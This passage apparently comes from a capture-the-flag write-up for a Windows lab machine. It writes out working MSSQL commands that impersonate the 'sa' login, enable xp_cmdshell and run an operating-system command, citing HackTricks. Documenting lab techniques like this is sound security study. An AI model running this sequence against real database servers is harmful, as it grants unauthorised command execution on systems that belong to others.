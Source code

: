 ![Untitled](Freelancer%20ddb658cf8b564ba0b3c161a2c4e057cb/Untitled%208.png)

As it is Windows box, it is most likely MSSQL. So, I will use the rev shelll script from: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#execute-os-commands

First I used to impersonate as user System Admin. ([https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#impersonation-of-other-users](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#impersonation-of-other-users))

```
EXECUTE AS LOGIN = 'sa'
```

Then,

```
sp_configure 'show advanced options', '1'
RECONFIGURE
sp_configure 'xp_cmdshell', '1'
RECONFIGURE

EXEC master..xp_cmdshell 'whoami'
```
